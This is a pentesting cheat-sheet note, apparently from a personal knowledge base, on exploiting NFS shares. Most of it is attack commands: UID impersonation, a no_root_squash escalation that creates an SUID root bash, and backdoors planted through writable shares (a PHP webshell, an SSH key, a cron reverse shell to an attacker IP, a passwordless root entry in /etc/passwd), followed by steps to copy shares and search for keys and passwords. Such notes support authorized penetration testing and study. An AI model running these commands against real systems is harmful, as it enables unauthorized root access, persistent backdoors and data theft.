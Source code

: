 ```yaml
---
id: Exploitation
aliases:
  - Network File System
tags:
  - Networking/Services/NFS/Exploitation
links: "[[Services]]"
---
```


# Exploitation

<!-- UID Manipulation {{{-->
## UID Manipulation

With
[UID Manipulation](https://hackviser.com/tactics/pentesting/services/nfs#uid-manipulation)
(or [Trusting UID and GID](https://book.hacktricks.wiki/en/network-services-pentesting/nfs-service-pentesting.html#trusting-uid-and-gid))
it is possible to impersonate an arbitrary user
(*or* `root` *(*`UID` *0)* *if* `no_root_squash` *is enabled*)
which the remote file system trusts

1. Check file ownership on the share

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ls -lan /mnt/nfs
> # e.g., file owned by UID 1000
> ```
<!-- }}} -->

2. Create user with same UID

<!-- Example {{{-->
> [!example]-
>
> ```sh
> useradd -u 1000 fakeuser
> ```
<!-- }}} -->

3. Switch to the new user

<!-- Example {{{-->
> [!example]-
>
> ```sh
> su fakeuser
> ```
<!-- }}} -->

4. Mount share

<!-- Example {{{-->
> [!example]-
>
>```sh
>mount -t nfs <target>:/<share> /mnt/nfs
>```
<!-- }}} -->

5. It is now possible to read/write files owned by UID 1000

<!-- Example {{{-->
> [!example]-
>
> ```
> cat /mnt/nfs/sensitive_file.txt
> ```
<!-- }}} -->

<!-- Tip {{{-->
> [!tip]
>
> The tool [fuse_nfs](https://github.com/hvs-consulting/nfs-security-tooling)
> will send the needed `UID` and `GID` to access the file(s)
<!-- }}} -->

___

<!-- }}} -->

<!-- No Root Squashing {{{-->
## No Root Squashing

When root squashing (`no_root_squash`) is disabled, the `root` user
on the client maintains `root` privileges on the NFS share,
allowing privilege escalation

1. Check if `no_root_squash` is set

<!-- Example {{{-->
> [!example]-
>
> ```sh
> showmount -e <target>
> ```
>
> > [!tip]
> >
> > Look for `no_root_squash` in output
<!-- }}} -->

2. Mount share

<!-- Example {{{-->
> [!example]-
>
> ```sh
> mount -t nfs <target>:/<share> /mnt/nfs
> ```
<!-- }}} -->

3. Create file as `root`

<!-- Example {{{-->
> [!example]-
>
> ```sh
> echo "test" > /mnt/nfs/root_file.txt
> ```
<!-- }}} -->

4. Check file permissions

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ls -la /mnt/nfs/root_file.txt
> ```
> ```sh
> -rw-r--r-- 1 root root
> ```
<!-- }}} -->

5. Create [[Permissions#SUID & SGID|SUID]] shell

<!-- Example {{{-->
> [!example]-
>
> ```
> cp /bin/bash /mnt/nfs/rootbash
> ```
> ```sh
> chmod +s /mnt/nfs/rootbash
> ```
<!-- }}} -->

6. Execute on the target system

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ./rootbash -p
> ```
<!-- }}} -->

___

<!-- }}} -->

<!-- Writable Share Exploitation {{{-->
## Writable Share Exploitation

[Writable Share Exploitation](https://hackviser.com/tactics/pentesting/services/nfs#writable-share-exploitation)
allows to upload backdoors, modify system files, or inject malicious code

<!-- Example {{{-->
> [!example]-
>
> Upload PHP webshell (*if web accessible*)
>
> > [!example]-
> >
> > ```sh
> > cp shell.php /mnt/nfs/var/www/html/shell.php
> > ```
>
> Upload SSH key
>
> > [!example]-
> >
> > ```sh
> > mkdir -p /mnt/nfs/root/.ssh
> > ```
> > ```sh
> > cp id_rsa.pub /mnt/nfs/root/.ssh/authorized_keys
> > ```
> > ```sh
> > chmod 600 /mnt/nfs/root/.ssh/authorized_keys
> > ```
>
> Upload [[Privesc/Scheduled Tasks|cron job]]
>
> > [!example]-
> >
> >```sh
> >echo "* * * * * root bash -i >& /dev/tcp/attacker-ip/4444 0>&1" > /mnt/nfs/etc/cron.d/backdoor
> >```
>
> Upload `/etc/passwd` backdoor
>
> > [!example]-
> >
> >```sh
> >echo "backdoor::0:0:root:/root:/bin/bash" >> /mnt/nfs/etc/passwd
> >```
<!-- }}} -->

___

<!-- }}} -->

<!-- NSFShell {{{-->
## NSFShell

List, mount and change `UID` and `GID` to have access to files with
[nfsshell](https://github.com/Supermathie/nfsshell)

___

<!-- }}} -->

<!-- Post-Exploitation {{{-->
## Post-Exploitation

Copy entire share

<!-- Example {{{-->
> [!example]-
>
>```sh
>rsync -av /mnt/nfs/ /tmp/exfiltrated_data/
>```
<!-- }}} -->

Compress and download (*from target to attacker machine*)

<!-- Example {{{-->
> [!example]-
>
> ```sh
> tar czf nfs_data.tar.gz /mnt/nfs
> ```
<!-- }}} -->

Find sensitive files

<!-- Example {{{-->
> [!example]-
>
> ```sh
> find /mnt/nfs -name "*.key" -o -name "*.pem" -o -name "*password*"
> ```
<!-- }}} -->

___

<!-- }}} -->

